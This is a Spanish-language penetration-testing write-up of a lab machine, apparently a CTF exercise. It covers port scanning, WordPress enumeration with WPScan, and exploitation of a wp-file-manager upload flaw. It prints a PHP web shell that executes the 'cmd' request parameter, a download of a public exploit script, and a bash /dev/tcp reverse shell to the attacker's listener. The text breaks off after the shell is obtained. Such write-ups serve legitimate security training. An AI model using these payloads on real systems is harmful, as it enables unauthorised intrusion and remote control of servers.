 #WordPress #RCE #ReverseShell
[[192.168.1.19 (Atacante)]]

--------

Hacemos un primer reconocimiento con [[NMAP]]
`nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 192.168.1.23 -oG allPorts`

Obtendremos los siguientes puertos:
```js
[*] IP Address: 192.168.1.23
[*] Open ports: 22,80
```

Hacemos un escaneo mas exhaustivo sobre estos dos puertos con [[NMAP]]
`nmap -p22,80 -sCV 192.168.1.23 -oN targeted`

Obtendremos la siguiente información de los puertos:
```js
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 48:df:48:37:25:94:c4:74:6b:2c:62:73:bf:b4:9f:a9 (RSA)
|   256 1e:34:18:17:5e:17:95:8f:70:2f:80:a6:d5:b4:17:3e (ECDSA)
|_  256 3e:79:5f:55:55:3b:12:75:96:b4:3e:e3:83:7a:54:94 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
```


### WEB

Con el servicio en el puerto 80 levantado, navegamos con Firefox a la IP y usamos [[WHATWEB]] para ver que contiene la web e información sobre esta:
`whatweb http://192.168.1.23/`

```python
http://192.168.1.23/ [200 OK] Apache[2.4.38], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], IP[192.168.1.23]
```


Haremos una enumeración de la web con la herramienta [[GOBUSTER]]
`gobuster dir -u http://192.168.1.23/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -t 20 -x html,php,txt`

Nos enumerara los siguientes directorios:
```js
/index.html
/blog
/javascript
```

Si navegamos a `/blog` vemos que es un WordPress tendremos que añadirlo en el `/etc/hosts`, ahora recargamos la web y se vera el contenido como es.

Volveremos a enumerar el  [[00.- WORDPRESS]], con la herramienta [[WPSCAN]]
`wpscan --url http://192.168.1.23/blog/ --enumerate u,vp --plugins-detection aggressive`

Descubriremos un usuario llamado `wp-admin`, también si usamos el API token de [[WPSCAN]] podremos enumerar posibles vulnerabilidades. `$WPTOKEN` es una variable en la ZSHRC con el API token de WPScan
`wpscan --url http://192.168.1.23/blog/ --enumerate u,vp --plugins-detection aggressive --api-token=$WPTOKEN`

Al usar el Token lo que nos otorga son vulnerabilidades que ha habido sobre esa versión o esos plugins pudiendo así facilitarnos a la hora de realizar la explotación en esta caso usaremos el siguiente POC que nos otorga:
`https://wpscan.com/vulnerability/e528ae38-72f0-49ff-9878-922eff59ace9`

No da un script de Python con el POC, así que lo descargamos con wget:
`wget https://ypcs.fi/misc/code/pocs/2020-wp-file-manager-v67.py`

Una vez descargado vemos en el código que llama a un archivo `.php` llamado `payload.php` lo creamos con el siguiente contenido que nos facilitara dar ordenes con el comando cmd:
```php
<?php
	echo"<pre>" . shell_exec($_REQUEST['cmd']) . "<pre>";
?>
```

Ahora una vez creado deberemos ejecutar el python:
`python3 2020-wp-file-manager-v67.py http://192.168.1.23/blog/`

Nos dará un código de estado 200 y nos indicara donde se encuentra el fichero que hemos creado, en este caso la siguiente:
`http://192.168.1.23/blog/wp-content/plugins/wp-file-manager/lib/files/payload.php`

Al finalizar la URL podemos añadir `?cmd=<comando>` para ejecutar comandos en la cmd de la maquina victima.

Como tenemos ejecución remota de comandos `RCE` nos ponemos en nuestra maquina atacante en escucha en el puerto `443`
`nc -nlvp 443`

Y en la web nos lanzamos una reverse shell:
`bash -c "bash -i >%26 /dev/tcp/192.168.1.19/443 0<%261"`

Obtendremos una shell y hacemos le tratamiento de la TTY

Navegamos a `/home` y veremos los usuarios
